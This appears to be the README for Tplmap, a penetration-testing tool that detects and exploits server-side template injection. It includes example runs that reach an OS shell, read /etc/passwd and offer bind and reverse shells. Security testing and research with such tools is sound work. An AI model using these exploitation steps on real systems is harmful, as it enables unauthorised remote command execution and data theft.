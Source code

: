 Tplmap
======

Tplmap (short for _Template Mapper_) is a tool that automate the process of detecting and exploiting Server-Side Template Injection vulnerabilities (SSTI). This assists SSTI exploitation to compromise the application and achieve remote command execution on the operating system. 

The tool can be used by security researches and penetration testers, to detect and exploit vulnerabilities and study the template injection vulnerability class.

The plugin architecture makes easy to extend the tool and support new template engines and techniques. The sandbox break-out methodologies came from James Kett's research [Server-Side Template Injection: RCE For The Modern Web App][1] and [other][2] original [techniques][3] found during the development of Tplmap.

Tplmap is able to detect and achieve arbitrary command execution in several exploitation scenarios as blind injections and code contexts injections.

Example
-------

```
$ ./tplmap.py -u 'http://www.target.com/app?id=*' 
[+] Tplmap 0.1
    Automatic Server-Side Template Injection Detection and Exploitation Tool

[+] Found placeholder in GET parameter 'id'
[+] Smarty plugin is testing rendering with tag '{*}'
[+] Smarty plugin is testing blind injection
[+] Mako plugin is testing rendering with tag '${*}'
...
[+] Freemarker plugin is testing blind injection
[+] Velocity plugin is testing rendering with tag '#set($c=*)\n${c}\n'
[+] Jade plugin is testing rendering with tag '\n= *\n'
[+] Jade plugin has confirmed injection with tag '\n= *\n'
[+] Tplmap identified the following injection point:

  Engine: Jade
  Injection: \n= *\n
  Context: text
  OS: darwin
  Technique: render
  Capabilities:
  
   Code evaluation: yes, javascript code
   Shell command execution: yes
   File write: yes
   File read: yes
   Bind and reverse shell: yes

[+] Rerun tplmap providing one of the following options:

   --os-shell or --os-cmd to execute shell commands via the injection
   --upload LOCAL REMOTE to upload files to the server
   --download REMOTE LOCAL to download remote files
   --bind-shell PORT to bind a shell on a port and connect to it
   --reverse-shell HOST PORT to run a shell back to the attacker's HOST PORT
        
$ ./tplmap.py -u 'http://www.target.com/app?id=*' --os-shell
[+] Run commands on the operating system.

linux $ whoami
www-data
linux $ ls -al /etc/passwd
-rw-r--r--  1 root  wheel  5925 16 Sep  2015 /etc/passwd
linux $

```

Supported template engines
--------------------------

| Template engine      | Detection          | Command execution | Code evaluation | File read | File write |
|----------------------|--------------------|-------------------|-----------------|-----------|------------|
| Mako                 |  render+blind      | yes               | python          | yes       | yes        |
| Jinja2               |  render+blind      | yes               | python          | yes       | yes        |
| Nunjucks             |  render+blind      | yes               | javascript      | yes       | yes        |
| Jade                 |  render+blind      | yes               | javascript      | yes       | yes        |
| JavaScript (generic) |  render+blind      | yes               | javascript      | yes       | yes        |
| Smarty (unsecured)   |  render+blind      | yes               | PHP             | yes       | yes        |
| Freemarker           |  render+blind      | yes               | no              | yes       | yes        |
| Velocity             |  render+blind      | yes               | no              | yes       | yes        |
| Twig                 |  render            | no                | no              | no        | no         |
| Smarty (secured)     |  render            | no                | no              | no        | no         |


[1]: http://blog.portswigger.net/2015/08/server-side-template-injection.html
[2]: https://github.com/epinna/tplmap/issues/9
[3]: http://disse.cting.org/2016/08/02/2016-08-02-sandbox-break-out-nunjucks-template-engine
